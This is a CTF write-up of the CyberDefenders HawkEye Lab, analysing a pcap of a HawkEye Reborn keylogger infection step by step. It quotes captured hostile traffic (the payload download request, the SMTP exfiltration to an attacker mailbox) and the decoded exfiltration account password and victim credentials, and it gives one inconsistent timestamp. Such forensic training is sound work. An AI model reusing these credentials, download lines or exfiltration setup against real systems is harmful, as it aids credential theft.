# HawkEye Lab — CTF Writeup

* **Platform:** CyberDefenders  
* **Challenge:** HawkEye Lab  
* **Category:** Network Forensics / Credential Exfiltration  
* **Difficulty:** Medium  
* **Analyst:** Mahmoud Hussien 
* **Tools:** Wireshark, CyberChef  
* **Artefact:** `stealer.pcap`  

---

## Scenario Overview

An accountant at the organization received a phishing email containing an invoice download link. Suspicious network traffic was observed shortly after the email was opened. The PCAP analysis revealed a **HawkEye Keylogger (Reborn v9)** infection — a commodity credential-stealing malware that harvested credentials from Google Chrome, Internet Explorer, and MS Outlook, then exfiltrated them every 10 minutes via SMTP to a compromised third-party email server.

---

## PCAP File Integrity

| Metric | Value |
|---|---|
| File Name | `stealer.pcap` |
| **SHA-256** | `22106927c11836d29078dfbec20be9d6b61b1f3f47f95c758acc47a1fb424e51` |
| **SHA-1** | `084d3ade8ce828e0233b69275c8554a86d9670ab` |

---

## Attack Chain Overview

```
[1] Phishing Email
    └─ Invoice download link → proforma-invoices.com

[2] Payload Download (22:37:54 UTC)
    └─ HTTP GET /proforma/tkraw_Protected99.exe
    └─ Server: 217.182.138.150 (France, OVH SAS)

[3] Execution
    └─ HawkEye Reborn v9 (ConfuserEx obfuscated)
    └─ Persistence: winlogons.exe in Startup folder

[4] IP Discovery (22:38:08 UTC)
    └─ Contacts bot.whatismyipaddress.com
    └─ Public IP confirmed: 173.66.146.112

[5] Credential Harvesting
    └─ Chrome, Internet Explorer, MS Outlook
    └─ Victim: roman.mcguire / P@ssw0rd$

[6] SMTP Exfiltration (every 10 minutes)
    └─ Server: 23.229.162.69 (GoDaddy, United States)
    └─ Account: sales.del@macwinlogistics.in
    └─ First: 22:38:15 UTC / Second: 22:48:19 UTC
```

---

## Question 1 — How many packets does the capture have?

### Investigation

**Wireshark:** `Statistics → Capture File Properties`

The total packet count is displayed in the file properties summary panel.

### Answer

```
4003
```


---

## Question 2 — At what time was the first packet captured (UTC)?

### Investigation

**Wireshark:** `Statistics → Capture File Properties` → First Packet field.

### Answer

```
2019-04-10 20:37
```


---

## Question 3 — What is the duration of the capture?

### Investigation

**Wireshark:** `Statistics → Capture File Properties` → Duration field.

The capture ran from `22:37:07` to `23:40:48` UTC.

### Answer

```
01:03:41
```


---

## Question 4 — What is the most active computer at the link level?

### Investigation

**Wireshark:** `Statistics → Endpoints → Ethernet tab`

Sorted by packet count — the MAC address generating the most frames:

### Answer

```
00:08:02:1c:47:ae
```


---

## Question 5 — Manufacturer of the NIC of the most active system?

### Investigation

The OUI (first 3 bytes) of the MAC address `00:08:02` was queried against the IEEE OUI database:

```
00:08:02 → Hewlett-Packard
```

### Answer

```
Hewlett-Packard
```


---

## Question 6 — Where is the headquarters of the NIC manufacturer?

### Investigation

Hewlett-Packard (HP Inc.) was founded in a garage in Palo Alto, California, and has maintained its corporate headquarters there since its founding in 1939.

### Answer

```
Palo Alto
```


---

## Question 7 — How many computers in the organization are involved?

### Investigation

**Wireshark:** `Statistics → Endpoints → IPv4 tab`

Filtering for the private address space (`10.4.10.0/24`) identified the internal hosts:

| IP | Role |
|---|---|
| `10.4.10.2` | Default gateway |
| `10.4.10.4` | DNS / Domain Controller |
| `10.4.10.132` | Victim workstation |

### Answer

```
3
```


---

## Question 8 — What is the name of the most active computer at the network level?

### Investigation

**Wireshark Filter:**

```
nbns || dhcp
```

NetBIOS Name Service (NBNS) and DHCP traffic reveal the hostname broadcasted by the most active internal IP (`10.4.10.132`). The hostname was also visible in HTTP User-Agent strings and SMB traffic.

### Answer

```
BEIJING-5CD1-PC
```


---

## Question 9 — What is the IP of the organization's DNS server?

### Investigation

**Wireshark Filter:**

```
dns
```

All DNS queries from the victim workstation (`10.4.10.132`) were directed to a single internal resolver — the organization's domain controller at `10.4.10.4` (hostname: `PizzaJukebox-DC`).

### Answer

```
10.4.10.4
```


---

## Question 10 — What domain is the victim asking about in packet 204?

### Investigation

Navigating directly to frame 204 in Wireshark and expanding the DNS query layer reveals the queried domain name. This is the malicious domain hosting the HawkEye payload.

### Answer

```
proforma-invoices.com
```


---

## Question 11 — What is the IP of the domain in the previous question?

### Investigation

The DNS response for `proforma-invoices.com` returned a single A record:

```
proforma-invoices.com → 217.182.138.150
```

### Answer

```
217.182.138.150
```


---

## Question 12 — Which country does the IP belong to?

### Investigation

WHOIS/geolocation lookup for `217.182.138.150`:

| Field | Value |
|---|---|
| ISP | OVH SAS |
| Location | Dunkirk, France |
| Country | France |

### Answer

```
France
```


---

## Question 13 — What operating system does the victim's computer run?

### Investigation

**Wireshark Filter:**

```
http.user_agent
```

The HTTP GET request for the malware payload contains the browser's User-Agent string:

```
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
```

`Windows NT 6.1` = Windows 7. `WOW64` confirms 64-bit OS running 32-bit processes.

### Answer

```
Windows NT 6.1
```


---

## Question 14 — What is the name of the malicious file downloaded?

### Investigation

**Wireshark Filter:**

```
http.request.method == "GET" && ip.dst == 217.182.138.150
```

The HTTP GET request URI:

```
GET /proforma/tkraw_Protected99.exe HTTP/1.1
Host: proforma-invoices.com
```

### Answer

```
tkraw_Protected99.exe
```


---

## Question 15 — What is the MD5 hash of the downloaded file?

### Investigation

**Wireshark:** `File → Export Objects → HTTP` → export `tkraw_Protected99.exe`

```bash
md5sum tkraw_Protected99.exe
```

Cross-referenced on VirusTotal — confirmed as **HawkEye Keylogger Reborn v9**, obfuscated with **ConfuserEx**.

### Answer

```
71826ba081e303866ce2a2534491a2f7
```


---

## Question 16 — What software runs the webserver hosting the malware?

### Investigation

Inspecting the HTTP response headers from `217.182.138.150`:

```
HTTP/1.1 200 OK
Server: LiteSpeed
```

### Answer

```
LiteSpeed
```


---

## Question 17 — What is the public IP of the victim's computer?

### Investigation

**Wireshark Filter:**

```
http.host contains "whatismyipaddress"
```

At `22:38:08 UTC`, the malware contacted `bot.whatismyipaddress.com` — a classic post-infection IP discovery step. The HTTP response body contained the victim's public IP:

```
173.66.146.112
```

### Answer

```
173.66.146.112
```


---

## Question 18 — In which country is the email server where stolen data is sent?

### Investigation

**Wireshark Filter:**

```
smtp
```

The SMTP exfiltration traffic was directed to IP `23.229.162.69`. WHOIS lookup:

| Field | Value |
|---|---|
| Provider | GoDaddy.com LLC |
| Location | Phoenix, Arizona |
| Country | United States |

### Answer

```
United States
```


---

## Question 19 — What software runs the email server?

### Investigation

Following the first SMTP TCP stream, the server's `220` welcome banner identifies the email server software:

```
220-p3plcpnl0413.prod.phx3.secureserver.net ESMTP Exim 4.91 ...
```

### Answer

```
Exim 4.91
```


---

## Question 20 — To which email account is the stolen data sent?

### Investigation

Reading the SMTP stream, the `RCPT TO` command reveals the destination address:

```
RCPT TO: <sales.del@macwinlogistics.in>
```

This is a **compromised third-party email account** being abused as a C2 exfiltration node — the malware author controls this inbox to receive stolen credentials.

### Answer

```
sales.del@macwinlogistics.in
```


---

## Question 21 — What is the password used by the malware to send the email?

### Investigation

The SMTP `AUTH LOGIN` sequence uses Base64-encoded credentials. Extracting and decoding via CyberChef:

```
Encoded:  U2FsZXNAMjM=
Decoded:  Sales@23
```

**CyberChef Recipe:** `From Base64`

### Answer

```
Sales@23
```


---

## Question 22 — Which malware variant exfiltrated the data?

### Investigation

The MD5 hash `71826ba081e303866ce2a2534491a2f7` was submitted to VirusTotal. Multiple vendor detections and threat intelligence reports identified the malware family and specific variant:

- **Family:** HawkEye Keylogger
- **Variant:** Reborn v9
- **Obfuscator:** ConfuserEx

